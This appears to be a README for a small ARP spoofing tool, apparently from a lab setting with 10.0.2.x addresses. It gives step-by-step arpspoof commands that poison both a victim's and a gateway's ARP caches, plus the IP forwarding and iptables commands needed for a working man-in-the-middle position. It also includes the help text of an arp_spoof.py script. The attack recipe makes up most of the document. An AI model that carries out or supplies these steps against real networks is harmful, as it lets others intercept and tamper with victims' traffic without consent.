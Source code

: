 # ARP Spoofer

use `arpspoof`

command: `arpspoof -i <interface> -t <target> <gateway>`

example: `arpspoof -i eth0 -t 10.0.2.15 10.0.2.1`

Let's say the victim is `10.0.2.15`, and the router is `10.0.2.1`.

Open two shells:

- Spoof the target, pretend to be the router: `arpspoof -i eth0 -t 10.0.2.15 10.0.2.1`

- Spoof the router, pretend to be the victim target: `arpspoof -i eth0 -t 10.0.2.1 10.0.2.15`

Meantime at the victime machine, type `arp -a` the router's MAC address will become attack machine's MAC address.

Set ip forwarding so victim machine can access the internet: `sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'`

(in my case) Set firewall rule: `sudo iptables -A FORWARD -i eth0 -j ACCEPT`

---

```sh
usage: arp_spoof.py [-h] [-t TARGET] [-g GATEWAY]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target ip
  -g GATEWAY, --gateway GATEWAY
                        Gateway ip
```